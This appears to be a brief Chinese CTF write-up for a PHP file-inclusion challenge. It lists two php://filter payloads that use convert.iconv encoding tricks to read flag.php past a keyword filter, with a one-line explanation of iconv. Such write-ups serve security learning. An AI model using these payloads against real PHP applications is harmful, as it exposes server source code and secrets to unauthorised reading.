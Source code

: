 # 题目名称-文件包含
```
?filename=php://filter//convert.iconv.SJIS*.UCS-4*/resource=/var/www/html/flag.php
?filename=php://filter/convert.iconv.utf8.utf16/resource=flag.php
```
考点:对convert.iconv.的应用
大多数关键词被过滤
iconv("utf8","gbk",$string)  //将字符串string 编码由utf8转变成gbk